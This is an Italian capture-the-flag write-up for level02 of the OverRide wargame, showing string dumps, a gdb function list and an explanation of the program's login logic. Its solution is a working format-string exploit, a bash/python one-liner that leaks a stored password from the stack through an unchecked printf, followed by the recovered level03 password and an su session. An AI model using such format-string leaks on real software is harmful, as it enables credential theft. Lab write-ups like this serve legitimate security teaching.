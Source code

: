 # Level 02
Controlliamo le stringhe presenti nel binario:
```
level02@OverRide:~$ readelf -p '.rodata' level02

String dump of section '.rodata':
  [     8]  r
  [     a]  /home/users/level03/.pass
  [    28]  ERROR: failed to open password file^J
  [    50]  ERROR: failed to read password file^J
  [    78]  ===== [ Secure Access System v1.0 ] =====
  [    a8]  /***************************************\
  [    d8]  | You must login to access this system. |
  [   108]  \**************************************/
  [   131]  --[ Username:
  [   140]  --[ Password:
  [   150]  *****************************************
  [   17a]  Greetings, %s!^J
  [   18a]  /bin/sh
  [   192]   does not have access!
```
E ora passiamo a `gdb`:
```
level02@OverRide:~$ gdb -q level02
Reading symbols from /home/users/level02/level02...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000400640  _init
0x0000000000400670  strncmp
0x0000000000400670  strncmp@plt
0x0000000000400680  puts
0x0000000000400680  puts@plt
0x0000000000400690  fread
0x0000000000400690  fread@plt
0x00000000004006a0  fclose
0x00000000004006a0  fclose@plt
0x00000000004006b0  system
0x00000000004006b0  system@plt
0x00000000004006c0  printf
0x00000000004006c0  printf@plt
0x00000000004006d0  strcspn
0x00000000004006d0  strcspn@plt
0x00000000004006e0  __libc_start_main
0x00000000004006e0  __libc_start_main@plt
0x00000000004006f0  fgets
0x00000000004006f0  fgets@plt
0x0000000000400700  fopen
0x0000000000400700  fopen@plt
0x0000000000400710  exit
0x0000000000400710  exit@plt
0x0000000000400720  fwrite
0x0000000000400720  fwrite@plt
0x0000000000400730  _start
0x000000000040075c  call_gmon_start
0x0000000000400780  __do_global_dtors_aux
0x00000000004007f0  frame_dummy
0x0000000000400814  main
0x0000000000400ac0  __libc_csu_init
0x0000000000400b50  __libc_csu_fini
0x0000000000400b60  __do_global_ctors_aux
0x0000000000400b98  _fini
```

### Funzione `main`
La funzione apre il file contenente la password che ci serve per poi salvarla in una variabile nello stack,
successivamente chiede username e password e confronta la password inserita dall'utente con quella presente
nel file, se sono uguali allora aprirà una shell altrimenti il programma termina.

### Soluzione
L'username inserito dall'utente, in caso di password non corretta, viene stampato a schermo tramite `printf`
senza alcun controllo, dunque sfrutteremo questo per andare alla ricerca nello stack della variabile dove è 
salvata la vera password. Dopo qualche prova con gli specificatori `%x` ho individuato la password nell'offset
22 fino alla posizione 26, quindi ho creato un piccolo script in bash per chiamare ogni volta il programma con
un offset che avanza di volta in volta, prende l'esadecimale, lo converte in ascii e applica un reverse:
```
level02@OverRide:~$ for i in {22..26}; do python -c "print '%$i\$lx' + '\n' + 'sdbstb'" | ./level02 | grep "access\!" | cut -d " " -f 1 | python -c "data = raw_input(); print(data.decode('hex')[::-1])" | tr -d "\n" ; done ; echo ""
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
level02@OverRide:~$ su level03
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
level03@OverRide:~$
```